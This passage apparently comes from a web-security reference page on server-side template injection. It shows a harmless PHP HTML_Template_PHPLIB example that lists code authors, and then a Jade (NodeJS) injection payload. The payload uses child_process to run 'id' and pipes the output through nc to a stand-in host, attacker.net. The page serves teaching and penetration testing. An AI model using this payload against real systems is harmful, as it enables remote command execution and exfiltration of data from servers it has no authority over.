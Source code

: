 `authors.php`



```
<?php
//we want to display this author list
$authors = array(
    'Christian Weiske'  => 'cweiske@php.net',
    'Bjoern Schotte'     => 'schotte@mayflower.de'
);

require_once 'HTML/Template/PHPLIB.php';
//create template object
$t =& new HTML_Template_PHPLIB(dirname(__FILE__), 'keep');
//load file
$t->setFile('authors', 'authors.tpl');
//set block
$t->setBlock('authors', 'authorline', 'authorline_ref');

//set some variables
$t->setVar('NUM_AUTHORS', count($authors));
$t->setVar('PAGE_TITLE', 'Code authors as of ' . date('Y-m-d'));

//display the authors
foreach ($authors as $name => $email) {
    $t->setVar('AUTHOR_NAME', $name);
    $t->setVar('AUTHOR_EMAIL', $email);
    $t->parse('authorline_ref', 'authorline', true);
}

//finish and echo
echo $t->finish($t->parse('OUT', 'authors'));
?>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs)

Jade (NodeJS)



```
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```
